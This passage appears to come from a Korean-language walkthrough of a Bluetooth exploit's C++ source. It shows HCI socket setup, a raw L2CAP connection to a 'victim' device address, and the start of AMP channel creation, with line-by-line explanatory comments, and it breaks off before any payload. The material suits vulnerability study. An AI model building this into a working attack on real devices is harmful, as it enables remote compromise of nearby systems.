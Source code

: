 ```c++
  hci_filter_all_ptypes(&flt);  // 0xff 으로 초기화 (memset)
  hci_filter_all_events(&flt);  // 0xff 으로 초기화 (memset)
  if (setsockopt(hci_socket, SOL_HCI, HCI_FILTER, &flt, sizeof(flt)) < 0) {
    perror("setsockopt(HCI_FILTER)");
    return 1;
  }

  // HCI socket 옵션 설정 - HCI_DATA_DIR(1)
  int opt = 1; // 값을 1로 설정.
  if (setsockopt(hci_socket, SOL_HCI, HCI_DATA_DIR, &opt, sizeof(opt)) < 0) {
    perror("setsockopt(HCI_DATA_DIR)");
    return 1;
  }

  // HCI socket으로 공격 대상에 연결
  printf("[*] Connecting to victim...\n");

  struct sockaddr_l2 laddr = {0}; // local bd addr
  laddr.l2_family = AF_BLUETOOTH;
  laddr.l2_bdaddr = di.bdaddr;    // line 89: hci socket에 설정된 bdaddr

  struct sockaddr_l2 raddr = {0}; // remote bd addr
  raddr.l2_family = AF_BLUETOOTH;
  raddr.l2_bdaddr = dst_addr;     // line 79: 실행인자로 받은 공격대상 bdaddr

  int l2_sock;

  // l2통신 소켓 생성
  if ((l2_sock = socket(PF_BLUETOOTH, SOCK_RAW, BTPROTO_L2CAP)) < 0) {
    perror("socket");
    return 1;
  }

  // bind
  if (bind(l2_sock, (struct sockaddr *)&laddr, sizeof(laddr)) < 0) {
    perror("bind");
    return 1;
  }

  // connect
  if (connect(l2_sock, (struct sockaddr *)&raddr, sizeof(raddr)) < 0) {
    perror("connect");
    return 1;
  }

  struct l2cap_conninfo l2_conninfo;
  socklen_t l2_conninfolen = sizeof(l2_conninfo);
  // 연결된 상태의 socket으로부터 option(연결정보) 획득
  if (getsockopt(l2_sock, SOL_L2CAP, L2CAP_CONNINFO, &l2_conninfo, &l2_conninfolen) < 0) {
    perror("getsockopt");
    return 1;
  }

  // HCI 통신을 위한 handle 생성
  uint16_t hci_handle = l2_conninfo.hci_handle;
  printf("[+] HCI handle: %x\n", hci_handle);

  /*
  첫 번째 통신
   - AMP 채널 형성
   - AMP는 고속 통신을 위한 채널이라고 함. 
  */
  printf("[*] Creating AMP channel...\n");
```